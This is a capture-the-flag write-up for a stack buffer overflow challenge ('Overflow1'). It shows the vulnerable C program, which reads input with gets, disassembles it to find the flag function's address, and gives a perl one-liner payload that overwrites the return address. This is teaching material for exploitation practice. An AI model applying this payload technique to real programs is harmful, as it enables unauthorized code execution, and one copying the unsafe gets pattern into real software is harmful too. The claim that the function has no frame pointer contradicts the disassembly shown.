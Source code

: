 # Overflow1

Program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

## Solution

From the name and a glance at the code (particularly the `printf` statements)
it looks like we're wanting to use a buffer overflow to overwrite a return
address.

There's a good summary of how functions all called in C
[here](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow2a.html), the most
important thing to note here is that the return address is at the bottom of the
stack when we enter a function.

### Address of the Target

We need to know what value we want to inject, that is, the address of the
`flag` function. We can find this easily enough by dissembling the program:

```
$ objdump -d vuln | grep '<flag>'
080485e6 <flag>:
```

So we will want to inject `0x080485e6`

### Constructing the Payload

Our payload will be built and injected into `vuln`, so let's look at this
function:

```
$ objdump -dM intel vuln | sed -n '/^[a-f0-9]\+ <vuln>/,/^$/p'
0804865f <vuln>:
 804865f:	55                   	push   ebp
 8048660:	89 e5                	mov    ebp,esp
 8048662:	53                   	push   ebx
 8048663:	83 ec 44             	sub    esp,0x44
 8048666:	e8 b5 fe ff ff       	call   8048520 <__x86.get_pc_thunk.bx>
 804866b:	81 c3 95 19 00 00    	add    ebx,0x1995
 8048671:	83 ec 0c             	sub    esp,0xc
 8048674:	8d 45 b8             	lea    eax,[ebp-0x48]
 8048677:	50                   	push   eax
 8048678:	e8 b3 fd ff ff       	call   8048430 <gets@plt>
 804867d:	83 c4 10             	add    esp,0x10
 8048680:	e8 8f 00 00 00       	call   8048714 <get_return_address>
 8048685:	83 ec 08             	sub    esp,0x8
 8048688:	50                   	push   eax
 8048689:	8d 83 07 e8 ff ff    	lea    eax,[ebx-0x17f9]
 804868f:	50                   	push   eax
 8048690:	e8 8b fd ff ff       	call   8048420 <printf@plt>
 8048695:	83 c4 10             	add    esp,0x10
 8048698:	90                   	nop
 8048699:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 804869c:	c9                   	leave  
 804869d:	c3                   	ret    
```

Of note, it looks like there's no frame pointer, so we're working directly on
the stack, which will simplify things. Now, recalling that we enter the
function with the address of the return function on the bottom of the stack,
let's look at the state of the stack when we allocate our buffer:

```
0804865f <vuln>:
 804865f:	55                   	push   ebp      <----- -0x4
 8048660:	89 e5                	mov    ebp,esp
 8048662:	53                   	push   ebx      <----- -0x4
 8048663:	83 ec 44             	sub    esp,0x44 <----- -0x44 (allocating our buffer)
 ```

So there is an offset of `0x4c` (`76` decimal) between the start of our buffer
and the return address, so we just have to fill up this space with anything we
like and then add the address we want:

```
$ perl -e 'print "A" x 0x4c . "\xe6\x85\x04\x08"' | ./vuln
```
